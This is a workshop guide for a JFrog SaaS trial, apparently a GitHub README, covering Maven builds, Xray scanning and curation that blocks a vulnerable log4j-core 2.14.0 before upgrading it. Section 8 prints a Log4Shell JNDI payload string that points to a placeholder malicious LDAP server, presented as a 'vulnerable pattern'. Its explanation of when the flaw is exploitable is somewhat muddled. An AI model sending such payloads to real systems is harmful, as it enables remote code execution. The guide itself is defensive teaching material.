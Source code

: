 # 🏗️ JFrog SaaS Trial Workshop Guide

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  
This guide will help you get started with JFrog SaaS, set up your trial environment, and practice building a Maven project using our GitHub sample repository.

---

## 📝 Prerequisites

- **Java** 8 or above
- **Maven** 3.6.x or above

---

## 🚀 1. Apply for a JFrog SaaS Trial

1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)
2. After registering, you will receive access to your own JFrog Platform instance in the cloud.  
   Please ensure you have access to:
   - ✅ **JFrog Artifactory (SaaS)**
   - ✅ **JFrog Xray** 

---

## 📦 2. Clone the Sample Maven Project

1. Clone the project:
   ```bash
   git clone https://github.com/JFrogChina/jfrog-poc-samples.git
   cd jfrog-poc-samples/maven-sample
   ```
2. Review the project structure (a simple Java Maven project for demonstration).

---

## 🏗️ 3. Create Maven Repositories (Quick Repository Creation)

![img_6.png](images/img_6.png)
1. Log in to your JFrog SaaS Platform.
2. Click **Quick Repository Creation** (top-right).
3. Select **Maven** as the package type.
4. Follow the prompts to create:
   - Local Repository (e.g., `sample-maven-local`)
   - Remote Repository (e.g., `sample-maven-remote`)
   - Virtual Repository (e.g., `sample-maven`, combining the above)
5. **Verify:**
   - Local Repo: `sample-maven-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-maven` (for builds and dependency resolution)

---

## 🔗 4. Configure JFrog CLI

We will use JFrog CLI to interact with the JFrog SaaS environment.

1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your SaaS environment (replace `<YOUR_DOMAIN>` with your JFrog SaaS domain):

   ```shell
   jf c add saas
   ```

   Follow the prompts:
   ```
   JFrog Platform URL: https://<YOUR_DOMAIN>.jfrog.io
   Username: <your-username>
   Password: <your-encrypted-password>
   ```

   > **How to get your Encrypted Password:**  
   > Log in to your JFrog SaaS UI → Profile (top-right) → Edit Profile → Generate Encrypted Password.

---

## 🛠️ 5. Configure Maven with `jf mvnc`

1. Run the following to configure Maven:
   ```shell
   cd maven-sample
   jf mvnc
   ```
2. Follow the prompts to set up repositories and deployment.
3. `jf mvnc` will automatically generate a `settings.xml` pointing to your SaaS repositories.

---

## 🏗️ 6. Build and Deploy the Maven Project

Run the following commands to build and deploy the project to your SaaS instance:

```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

- Compiles and packages the project
- Uploads artifacts (e.g., `.jar` files) to `sample-maven-local`
- Records build information

---

## 🔍 7. Verify in JFrog Platform

- Log in to your JFrog SaaS instance:
  - Go to **Artifactory → Artifacts** to see your deployed artifacts.
  - Go to **Builds** to view build information (`sample-maven-build`).

---

## 🔒 8. Enable Xray Indexing for Security Scanning

1. Go to **JFrog Xray → Index Resource**.
2. Add the following resources to the watch:
   - Repositories: `sample-maven-local`
   - Builds: `sample-maven-build`
3. Xray will now scan both the repository and your build for vulnerabilities, licenses, and compliance issues.

### Understanding log4j Vulnerability in Your Project

The log4j vulnerability (CVE-2021-44228) is detected in your project because it uses log4j-core version 2.14.0. However, it's important to understand that this vulnerability only becomes exploitable when:

1. The vulnerable version of log4j is present in your project
2. **AND** your application uses one of these specific logging patterns:
   ```java
   // Vulnerable pattern
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe pattern
   logger.info("User logged in: {}", username);
   ```

The vulnerability is triggered only when:
- The application logs user-controlled input
- The input contains the `${jndi:ldap://...}` pattern
- The application has network access to the malicious server

This is why Xray's advanced security analysis shows that many of the detected vulnerabilities are false positives - they exist in the code but are not actually exploitable in your specific use case.

---

## 🛡️ 9. Demonstrate and Remediate log4j Vulnerability

### 9.1 Review the log4j Vulnerability

![img_1.png](images/img_1.png)


### Review the JFrog advanced security result to reduce the false positives
   ![img_5.png](images/img_5.png)

> **Great! JFrog advanced security found out 86% of critical/high vulnerabilities are false positives.**


   ![img_4.png](images/img_4.png)

---
### 9.2 Curation: Block log4j-2.14.0.jar
![img_7.png](images/img_7.png)
1. **Create a condition to block `log4j-2.14.0.jar`:**  
   Administrator → Curation Settings → Create Condition  
   ![img.png](images/img.png)

2. **Create a curation policy containing this condition:**  
   ![img_2.png](images/img_2.png)

3. **Clean the local and remote repository cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Try to pull `log4j-2.14.0.jar` again:**  
   You should see an error indicating the artifact is blocked.

   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ...
   ```
   ![img_3.png](images/img_3.png)

5. **Upgrade the log4j version to 2.17 to fix the issue:**  
   Edit `pom.xml`:
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild and redeploy to see the scan results:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

---

> **Happy building and stay secure! 🚀**